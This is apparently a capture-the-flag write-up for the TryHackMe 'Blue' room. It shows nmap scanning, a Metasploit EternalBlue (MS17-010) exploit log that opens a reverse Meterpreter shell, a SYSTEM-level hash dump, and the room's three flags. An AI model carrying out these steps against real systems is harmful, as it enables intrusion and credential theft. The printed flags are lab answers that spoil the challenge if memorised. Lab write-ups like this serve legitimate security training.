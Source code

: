 ###### Deploy & hack into a Windows machine, leveraging common misconfigurations issues.
Room: https://tryhackme.com/room/blue
##

sudo nmap -sS -sC -sV -T5 -vv xx.xx.xxx.xxx
```
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped   syn-ack ttl 127
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49160/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
If we add the **--script=vuln** option to nmap, we see that the machine is vulnerable to Eternal Blue.

```
Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

```

For a quick exploit, we can use metasploit with **windows/smb/ms17_010_eternalblue)** exploit.  

```
[*] Started reverse TCP handler on xx.x.x.xxx:4444 
[*] xx.xx.xxx.xxx:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] xx.xx.xxx.xxx:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] xx.xx.xxx.xxx:445     - Scanned 1 of 1 hosts (100% complete)
[+] xx.xx.xxx.xxx:445 - The target is vulnerable.
[*] xx.xx.xxx.xxx:445 - Connecting to target for exploitation.
[+] xx.xx.xxx.xxx:445 - Connection established for exploitation.
[+] xx.xx.xxx.xxx:445 - Target OS selected valid for OS indicated by SMB reply
[*] xx.xx.xxx.xxx:445 - CORE raw buffer dump (42 bytes)
[*] xx.xx.xxx.xxx:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] xx.xx.xxx.xxx:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] xx.xx.xxx.xxx:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] xx.xx.xxx.xxx:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] xx.xx.xxx.xxx:445 - Trying exploit with 12 Groom Allocations.
[*] xx.xx.xxx.xxx:445 - Sending all but last fragment of exploit packet
[*] xx.xx.xxx.xxx:445 - Starting non-paged pool grooming
[+] xx.xx.xxx.xxx:445 - Sending SMBv2 buffers
[+] xx.xx.xxx.xxx:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] xx.xx.xxx.xxx:445 - Sending final SMBv2 buffers.
[*] xx.xx.xxx.xxx:445 - Sending last fragment of exploit packet!
[*] xx.xx.xxx.xxx:445 - Receiving response from exploit packet
[+] xx.xx.xxx.xxx:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] xx.xx.xxx.xxx:445 - Sending egg to corrupted connection.
[*] xx.xx.xxx.xxx:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to xx.xx.xxx.xxx
[*] Meterpreter session 2 opened (xx.x.x.xxx:4444 -> xx.xx.xxx.xxx:49220) at 2021-10-10 22:11:15 +0300
meterpreter > 
```

**meterpreter > getuid**  
> Server username: NT AUTHORITY\SYSTEM  

**hashdump output**  
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
**Flag 1** - C:\  
> flag{access_the_machine}  

**Flag 2** - C:\Windows\System32\config  
> flag{sam_database_elevated_access}

**Flag 3** - C:\Users\Jon\Documents  
> flag{admin_documents_can_be_valuable}
